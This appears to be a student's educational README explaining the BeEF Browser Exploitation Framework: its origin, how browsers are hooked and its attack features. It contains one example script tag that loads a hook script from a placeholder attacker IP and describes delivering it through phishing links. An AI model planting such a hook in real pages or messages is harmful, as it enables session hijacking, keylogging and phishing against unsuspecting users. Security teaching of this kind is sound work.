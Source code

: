 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers and vulnerabilities. BeEF which is the short term of Browser Exploitation Framework was initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers [3][3]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [3][3]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [4]. 
```javascript
<script src="http://{ATTACKER’S IP}:3000/hook.js" type="text/javascript"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Channel are started. The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [5][5],[6][6]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](C:\Users\Yazan\Desktop\UWO\Introduction To Hacking\Hacking Tool Presentation\Diagram2.png?raw=true)



[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[4]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[5]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[6]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
